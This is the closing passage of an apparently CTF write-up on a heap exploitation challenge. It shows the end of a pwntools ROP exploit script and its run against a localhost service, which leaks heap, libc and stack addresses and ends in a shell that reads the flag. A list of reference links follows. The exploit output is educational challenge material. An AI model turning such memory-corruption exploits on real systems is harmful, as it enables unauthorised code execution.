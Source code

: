 ```python
    payload += p64(0) * 2

    sendline(payload)

    r.interactive()
```

And its execution:

```
$ ./payload_rop.py 
[+] Opening connection to localhost on port 11111: Done
[*] Leaked heap_addr: 0x558f636950
[*] Malicious size: -2688
[*] Leaked .text_addr: 0x557ae38f54
[*] Leaked libc_addr: 0x7f8a3245c8
[*] Leaked libc_base: 0x7f8a1dc000
[*] Leaked stack_addr: 0x7ffdf04c58
[*] Switching to interactive mode

Q. When does a joke become a Dad joke?
A. When it becomes apparent.

1. Add an entry
2. Print entries
3. Quit

--> $ ls
app
bin
flag
lib
lib64
sbin
$ cat flag
CTF{somebody.has.written.gullible.on.the.ceiling.above.you}
```

Why go the easy way? `(┛◉Д◉)┛┻━┻`

[system]: http://man7.org/linux/man-pages/man3/system.3.html
[malloc]: http://man7.org/linux/man-pages/man3/malloc.3.html
[mmap]: http://man7.org/linux/man-pages/man2/mmap.2.html
[read]: http://man7.org/linux/man-pages/man2/read.2.html
[exit]: http://man7.org/linux/man-pages/man3/exit.3.html
[strcpy]: http://man7.org/linux/man-pages/man3/strncpy.3.html
[strdup]: http://man7.org/linux/man-pages/man3/strdup.3.html
[strtol]: http://man7.org/linux/man-pages/man3/strtol.3.html
[qemu]: http://wiki.qemu.org/Main_Page
[phrak]: http://phrack.org/issues/66/10.html
[shellphish]: https://github.com/shellphish/how2heap/blob/master/house_of_force.c
[pwntools]: https://github.com/Gallopsled/pwntools
[minsize]: https://sourceware.org/git/?p=glibc.git;a=blob_plain;f=malloc/malloc.c;hb=HEAD
[socat]: http://www.dest-unreach.org/socat/
[magicgadget]: {% post_url 2016-03-30-Radare2-of-the-Lost-Magic-Gadget %}
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html
[callconv]: https://en.wikipedia.org/wiki/Calling_convention#ARM_.28A64.29
